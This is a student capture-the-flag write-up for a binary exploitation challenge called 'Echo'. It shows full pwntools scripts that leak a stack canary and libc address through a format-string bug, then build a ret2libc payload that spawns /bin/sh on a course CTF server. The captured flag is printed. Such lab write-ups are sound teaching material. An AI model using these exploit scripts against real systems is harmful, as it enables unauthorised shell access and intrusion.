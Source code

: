 # Optional CTF - Echo

![Quick explanation]()

1. Firstly, we checked the file given using the checksec command.

![Image 01 - checksec file program](CTFs/Opcionals/Img/4-Echo/1.checksec_program.png)

- Seeing the resuts, we can conclude that it's going to be difficult to overwrite the stack beacause this stack as a canary protecting him.

- After some time thinking, we got to the conclusion that we would need to overwrite the return address, and in order to do this we would need to store the canary's value.

- We were given the _libc_ library. We can now use the _strings_ utility to find the offset of string **/bin/sh** relative to the start of the libc binary:

```bash
strings -a -t x libc.so.6 | grep "/bin/sh"
```

![Image 02 - /bin/sh address](CTFs/Opcionals/Img/4-Echo/2.bin_sh_address.png)

- This means that, in our vulnerable program, at address 0x1bd0f5 we should see the string `/bin/sh`.

2. Secondly, we need to find the offset address of the _libc_ library.

```bash
readelf.py -s libc.so.6 lgrep system
```

![Image 03 - base address of the _libc_ library](CTFs/Opcionals/Img/4-Echo/3.glibc_library_address.png)

- In this case, we can conclude that the memeory address of the offset of the _libc_ library is `0x00048150`.

3. Thirdly, we need to find the address where the vulnerability starts in our program.

```bash
(gdb) info proc map
```

- From the output we can conclude that the base address of the _libc_ library where the vulnerability starts in our _program_ file is at 0xf7d89000.


4. After getting all this values, we can create a python script that prints all the values that are on the memory interval of the _libc_ library. 

```py
#!/usr/bin/python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4002)

for i in range(1,14):
    p.recvuntil(b">")
    p.sendline(b"e")
    p.recvuntil(b"Insert your name (max 20 chars): ")
    p.sendline("%" + str(i) + "$10p")
    answer = p.recvline()
    print("i: ", i, "->stack", answer)
    p.recvuntil(b"Insert your message: ")
    p.sendline(b"")

p.interactive()
```

![Image4 - getValues.py value in the middle](CTFs/Opcionals/Img/4-Echo/4.address_in_the_middle_of_the_stack.png)

- From the result, we need to store the value that is between the start address of the program file and the end address of the same. We ca conclude, in this case, that the value is `0xf7e24ecb`. In our case, we used the value got on the 1st try `0xf7daa519`. 

- After this, run once again the getValues.py file.

![Image5 - getValues.py canary address](CTFs/Opcionals/Img/4-Echo/5.get_value_result.png)

- We also need to store the value of the canary in order to store it after the stack be overwritten (address of canary is `0x59e48500`).


5. After getting all this 5 values, we need to create a python script in order to unloack the working directory and cat the flag.

```py
#!/usr/bin/python3
from pwn import *

LOCAL = False

valueInTheMiddleLibc = 0xf7daa519
addressLib = 0xf7d89000
referenceLibOffset = valueInTheMiddleLibc - addressLib
systemLibOffset = 0x00048150
shLibOffset = 0x1bd0f5

def sendMessage(p,message):
	p.recvuntil(b">")
	p.sendline(b"e")
	p.recvuntil(b"Insert your name (max 20 chars): ")
	p.sendline(message)
	answer = p.recvline()
	p.recvuntil(b"Insert your message: ")
	p.sendline(b"")
	
	return answer

if LOCAL:
	pause()
else:
	p = remote("ctf-fsi.fe.up.pt", 4002)

message1 = sendMessage(p, b"%8$x | %11$x")

canary, referenceVal = [int(val,16) for val in message1.split(b'|')]

libBase = referenceVal - referenceLibOffset
addressSystem = libBase + systemLibOffset
addressSH = libBase + shLibOffset

message2 = flat(b"A"*20, canary + 1, b"A"*8, addressSystem, b"A"*4, addressSH)

sendMessage(p,message2)

message3 = b"E"*19

sendMessage(p,message3)

p.interactive()
```

- Running this python script, we are able to enter the working directory and get the _flag.txt_.

![Image6 - exploit-example.py result, flag](CTFs/Opcionals/Img/4-Echo/6.flag_result.png)


### Flag

`flag{122d40cb0dd355c631057cf597de3dac}`

<span>* We based our research and procedure in the website: https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc .</span>

